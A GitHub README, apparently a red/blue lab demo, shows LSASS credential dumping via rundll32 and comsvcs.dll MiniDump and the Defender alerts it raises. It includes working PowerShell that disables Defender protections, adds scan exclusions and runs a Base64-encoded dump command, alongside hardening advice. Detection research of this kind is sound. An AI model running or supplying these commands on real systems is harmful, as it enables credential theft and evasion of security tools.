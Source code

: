 # LSASS dumping, MiniDump
Hackers might target LSASS to grab login credentials stored in its memory. 
After a user logs in, LSASS stores important credential info that can be stolen by attackers to move through a system using different authentication details.

Microsoft Defender for Endpoint and Defender Antivirus effectively prevent and detect LSASS dumping activities. 
Now, I'd like to demonstrate the detection perspective by ***capturing all activities and correlating multiple alerts into a single incident***.

## Red Note (test insights)
**PowerShell, LSASS credential dumping, Built-in Windows tool** 
```powershell
$lsassPID = (Get-Process -Name lsass).Id
cmd.exe /C "C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsassPID C:\temp\out.dmp full" 
```

**Attack Script**
- [x] Download [a script](https://github.com/LearningKijo/ResearchDev/blob/main/DEV/DEV04-LSASSdumping-MiniDump/Dev04Ninja.ps1) ↓

```powershell
# Disable Microsoft Defender Antivrus tool
Set-MpPreference -DisableRealtimeMonitoring $true -ExclusionPath "C:\" -DisableBlockAtFirstSeen $true -DisableEmailScanning $true -DisableScriptScanning $true -ExclusionExtension "exe"

# Create "C:\temp" for a dump file
$tempDir = "C:\temp"
if (-not (Test-Path $tempDir -PathType Container)) {
        New-Item -Path $tempDir -ItemType Directory
}

# Wait for 10 seconds
Start-Sleep -Seconds 10

# LSASS dumping using the built-in Windows tool, Encoded by Base64
powershell.exe -e JABsAHMAYQBzAHMAUABJAEQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAE4AYQBtAGUAIABsAHMAYQBzAHMAKQAuAEkAZAANAAoAYwBtAGQALgBlAHgAZQAgAC8AQwAgACIAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAHIAdQBuAGQAbABsADMAMgAuAGUAeABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAGMAbwBtAHMAdgBjAHMALgBkAGwAbAAsACAATQBpAG4AaQBEAHUAbQBwACAAJABsAHMAYQBzAHMAUABJAEQAIABDADoAXAB0AGUAbQBwAFwAbwB1AHQALgBkAG0AcAAgAGYAdQBsAGwAIgA=
```
> [!Note]
> This script will perform the following actions:
> 1. Disable Microsoft Defender Antivrus tool
> 2. Create "C:\temp" for a dump file
> 3. LSASS dumping using the built-in Windows tool (Encoded by Base64)
> 
> Make sure that [MDE Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc) is disabled.

## Alerts & Detections
After running the script, these alerts were generated and correlated into a single incident in Microsoft Defender XDR portal.
- [x] Suspicious PowerShell command line
- [x] Sensitive credential memory read
- [x] Suspicious process executed PowerShell command
- [x] Suspicious access to LSASS service
- [x] Process memory dump
- [x] Suspicious Process Discovery
- [x] Suspicious Microsoft Defender Antivirus exclusion
- [x] Attempt to turn off Microsoft Defender Antivirus protection

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/b7f1dc16-ac2a-4032-9f77-fd1cd1074318)

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/98f5cf84-59e7-46ee-a9ad-58434efedd83)

## Blue Note
- Turn on [Microsoft Defender Antvirus](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/next-generation-protection?view=o365-worldwide) (Including Real-Time Protection, Cloud Protection, Sample Submission and so on)
- Enable ASR rules, [
Block credential stealing from the Windows local security authority subsystem](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide#block-credential-stealing-from-the-windows-local-security-authority-subsystem)
- Onboarding [Microsoft Defender for Endpoint](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-endpoint?view=o365-worldwide)
- Turn on Microsoft Defender for Endpoint, [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc)

Windows administrators can also perform the following to further harden the LSASS process on their devices:
- Enable [PPL for LSASS process](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection#BKMK_HowToConfigure); note that for new, enterprise-joined Windows 11 installs (22H2 update), this is already enabled by default
- Enable [Windows Defender Credential Guard](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/configure?tabs=intune#enable-windows-defender-credential-guard); this is also now enabled by default for organizations using the Enterprise edition of Windows 11
- Enable [restricted admin mode](https://learn.microsoft.com/en-us/archive/blogs/kfalde/restricted-admin-mode-for-rdp-in-windows-7-2008-r2) for Remote Desktop Protocol (RDP)
- Disable [“UseLogonCredential” in WDigest](https://support.microsoft.com/en-us/topic/microsoft-security-advisory-update-to-improve-credentials-protection-and-management-may-13-2014-93434251-04ac-b7f3-52aa-9f951c14b649)

## Reference
- [OS Credential Dumping: LSASS Memory, T1003.001](https://attack.mitre.org/techniques/T1003/001/)
- [Detecting and preventing LSASS credential dumping attacks](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
